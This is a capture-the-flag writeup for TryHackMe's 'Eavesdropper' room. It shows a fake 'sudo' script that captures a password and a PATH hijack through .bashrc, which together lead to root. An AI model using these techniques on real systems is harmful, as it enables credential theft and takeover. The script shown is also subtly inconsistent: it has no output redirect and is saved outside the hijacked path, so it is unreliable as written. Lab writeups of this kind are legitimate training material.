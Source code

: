 ```yaml
---
title: "Eavesdropper"
date: 2025-03-31
image: /assets/img/tryhackme/Eavesdropper/Eavesdropper_image.jpg
description: Writeup of the TryHackMe-CTF Eavesdropper
categories: [TryHackMe, Medium]
tags: [linux, pspy, path, ssh]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Eavesdropper</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Listen closely, you might hear a password!</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Medium</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/eavesdropper">https://tryhackme.com/room/eavesdropper</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Eavesdropper.

## Enumeration

Having already gained initial access, I connected using the private key.:
```bash
kali@kali:~/ctf/eavesdropper$ chmod 600 id-rsa-1647296932800.id-rsa
kali@kali:~/ctf/eavesdropper$ ssh -i id-rsa-1647296932800.id-rsa frank@10.10.196.240
frank@workstation:~$ id
  uid=1000(frank) gid=1000(frank) groups=1000(frank),27(sudo)
```

I started enumeration with several manual checks, such SUID bits, capabilities, cron jobs, and more. After reviewing the most common vectors, I uploaded and executed <a href="https://github.com/DominicBreuker/pspy">pspy</a> which revealed the following output:
```bash
2025/03/31 12:33:48 CMD: UID=1000  PID=12687  | sshd: frank@pts/1    
2025/03/31 12:33:49 CMD: UID=1000  PID=12688  | sshd: frank@pts/1    
2025/03/31 12:33:49 CMD: UID=0     PID=12689  | sudo cat /etc/shadow 
```

## Privilege Escalation frank

Since using `sudo` to cat the `/etc/shadow` file requires the user to enter their sudo password, I could exploit this by creating a file called sudo, which saves the input to a file:
```bash
frank@workstation:~$ echo "#!/bin/bash" > sudo
frank@workstation:~$ echo 'read -p "insert" pwd' >> sudo
frank@workstation:~$ echo 'echo $pwd /home/frank/password' >> sudo
frank@workstation:~$ chmod 777 sudo
```

I manipulated the PATH variable over the `.basrc` file.
```bash
  frank@workstation:~$ nano .bashrc
  # ~/.bashrc: executed by bash(1) for non-login shells.
  # see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
  # for examples
  PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
  [...]
```

After relogging and waiting a few seconds, the `password` file was created:
```bash
frank@workstation:~$ ls
  password
frank@workstation:~$ cat password 
  ![removed]*
```

## Privilege Escalation root
I proceeded with `/usr/bin/sudo -l`, referencing the full path, because otherwise, my created `sudo` would be executed:
```bash
frank@workstation:~$ /usr/bin/sudo -l
  [sudo] password for frank: 
  Matching Defaults entries for frank on workstation:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User frank may run the following commands on workstation:
      (ALL : ALL) ALL
```

With this permission, I was able to change my user to root and retrieve the root flag:
```bash
frank@workstation:~$ /usr/bin/sudo su
root@workstation:/home/frank# id
  uid=0(root) gid=0(root) groups=0(root)
root@workstation:/home/frank# cd /root
root@workstation:~# ls
  flag.txt
root@workstation:~# cat flag.txt 
  flag{1[removed]0}
```

solved! :)